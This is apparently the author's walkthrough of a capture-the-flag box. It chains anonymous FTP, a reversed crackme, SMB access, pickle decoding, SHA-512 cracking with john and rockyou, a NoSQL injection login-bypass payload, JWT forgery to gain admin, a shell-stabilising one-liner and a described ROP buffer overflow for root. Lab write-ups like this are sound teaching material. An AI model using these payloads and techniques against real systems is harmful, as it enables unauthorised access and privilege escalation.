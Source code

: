 # Walkthrough

#### SPOILER: 
- The box pwned in an unintended way. My mistake :( that I forgot to turn off the developer account in vagrant. 
So if you make an all port scan , you get vagrant port opened and you can login using vagrant default credentials 
and become a sudo user. Below mentioned is the intented way to pwn the box.

> All the automation scripts code for solving the room will be found at
[Automation Script](https://github.com/blessingcharles/AbacusCTF/tree/main/utilities)

> Topics Involved
1. OSINT
2. Reverse Engineering
3. Vigener cipher [polyalphabetic substitution]
4. wireshark dump + sha512 bruteforce(rockyou.txt)
5. python pickle dump
6. Nosql Injection auth bypass
7. JWT forge
8. ROP binary exploitation [port forwarding to expose the internal port to the subnet]

#### Port Scanning nmap results

```bash
nmap -sC -sV -oA nmap/ 10.10.107.164

Starting Nmap 7.80 ( https://nmap.org ) at 2022-04-23 15:15 IST
Nmap scan report for 10.10.107.164
Host is up (0.37s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rwxr-xr-x    1 ftp      ftp         14472 Apr 22 15:05 crackme
|_-rw-r--r--    1 ftp      ftp          1012 Apr 22 15:05 message.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.17.36.149
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 4.6.2
445/tcp  open  netbios-ssn Samba smbd 4.6.2
5000/tcp open  http        Node.js Express framework
Service Info: Host: Welcome; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: VAGRANT, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2022-04-23T09:46:43
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.88 seconds


```
## flag1 and flag2 [ftp]

1. port21 anonymous was login enabled

```bash
    ftp <server-ip>
    ftp> get crackme
    ftp> get message.txt
```

##### crackme

    - You need to reverse engineer , the given encrypter using tools like ghidra, source code in the repo under playground directory.
    
```cpp
unsigned char reduce(unsigned char *data, size_t len)
{
    unsigned char result = 0;
    for (size_t i = 0; i < len; i++)
    {
        result ^= ((data[i] << (i % 4)) | (data[i] >> (8 - i % 4)));
        result += data[i] ^ i;
    }
    return result;
}

void encrypt(unsigned char *data, size_t len, unsigned char key)
{
    unsigned char *encryptedData = new unsigned char[len];
    memcpy(encryptedData, data, len);

    for (size_t i = 0; i < len; i++)
    {
        encryptedData[i] = ((encryptedData[i] ^ key) & 0x7F) | ((encryptedData[i] & 0x80) >> 1) | ((key & 0x01) << 7);
        key = ((key << 1) | (key >> 7)) ^ i;
    }

    memcpy(data, encryptedData, len);
    delete[] encryptedData;
}

void generate_password(char *str, int len, int rotation_count)
{
    unsigned char hash[] = {0x43, 0x12, 0x17, 0x42, 0x18, 0x12,
                            0x87, 0x32, 0x61, 0x14, 0x54, 0x91,
                            0x39, 0x21, 0x54, 0x21, 0x67, 0x50};

    for (int i = 0; i < len; i++)
    {
        for (int j = 0; j < rotation_count; j++)
        {
            str[i] = str[i] ^ hash[i];
        }
    }
    unsigned char *ustr = reinterpret_cast<unsigned char *>(str);

    printf("\n Len : 0x%d \n", reduce(hash, len));

    encrypt(ustr, len, reduce(hash, len) % 0xf0);

    for (int i = 0; i < len; i++)
    {
        printf("0x%x , ", ustr[i]);
    }
}
```

##### message.txt

OSINT starting from linkedin


## flag 3 and 4 [smb]

The previous flags are used as username and password for smbclient

```bash
    smbclient //10.10.107.164/thomasthecatoonz -U thomasthecatoonz
    Enter WORKGROUP\thomasthecatoonz's password:
    Try "help" to get a list of possible commands.
    smb: \> ls
      .                                   D        0  Fri Apr 22 19:56:04 2022
      ..                                  D        0  Fri Apr 22 19:56:04 2022
      chutney                             N      880  Sat Apr 23 08:50:41 2022
      message.txt                         N      966  Sat Apr 23 08:50:41 2022
      secretchat                          N    21948  Sat Apr 23 08:50:42 2022
```

##### chutney

-   As mentioned in the message.txt chutney it means pickled object of python
    so by doing reverse engineering the file we can get the flag

-   Algo:
    convert the hex to integer and then convert the long format to bytes format
    unpickle the content of the file and you'll get a list of tuples of emp-secret-{idx}
    so by reordering you will get the flag.


##### secretchat

-   In the chats we can see thomas and jerry talks about jwt secret
-   jerry shares his jwt secret in sha512 after cracking we found that armageddon391

```sha512
    Jerry: 60aa4d765ead6dcf8248681c5a444502fa23f9c26fd8885d7ae2571ee67558c6e6b1b33c2c6450d443baeadb3413058c5eeeb67d87f88da9584afa6c4a130586
```

    ```bash
     john --wordlist=/usr/share/wordlists/rockyou.txt myhash --format=raw-sha512
    ```


## flag 5 and 6 [Webserver]:

##### flag 5[No sql injection]

-   In the login page we can enter the employee secret which we got from smb. We can use burpsuite to
change it to nosql payload

- url : http://10.10.28.23:5000/login

```json
{
    "email": {
        "$gt": ""
    },
    "password": {
        "$gt": ""
    },
    "secret": "1p4v#dr45ht1"
}
```

    In localstorage we can get the flag and token ,the flag will be used as a username for ssh later

##### flag 6[jwt bypass]

- As we already got the jwt secret  we sign our own jwt secret to become admin .
- We can use jwt.io website to see what are the contents of the token .
- It has a field of isAdmin: false , we change it to true and query the /api/secret endpoint
and put the forged token in Authorization header to get admin privilege of site and get ssh password
as flag

## flag7 user.txt

- with the ssh username and password we can login as user
- for stabilizing the shell
```bash
    python3 -c 'import pty;pty.spawn("/bin/bash")'
```

```bash
    cat .user.txt
```
    
## flag8 root.txt

- A daemon service is running as port 8036 running as root  so we can exploit it and get root
- Vulnerability buffer overflow
- Get the libc and binary file from the server to get the correct versions for the exploit to work  
- We need to bruteforce the stack canary , rbp , rip to bypass aslr , pie mitigations
- We need to use ROPgadgets to get root shell
- Automation script is in the above provided github
- Full walkthrough of binary exploitation [link](https://github.com/blessingcharles/AbacusCTF/blob/main/binexploit.pdf).
```bash
    cat .root.txt
```
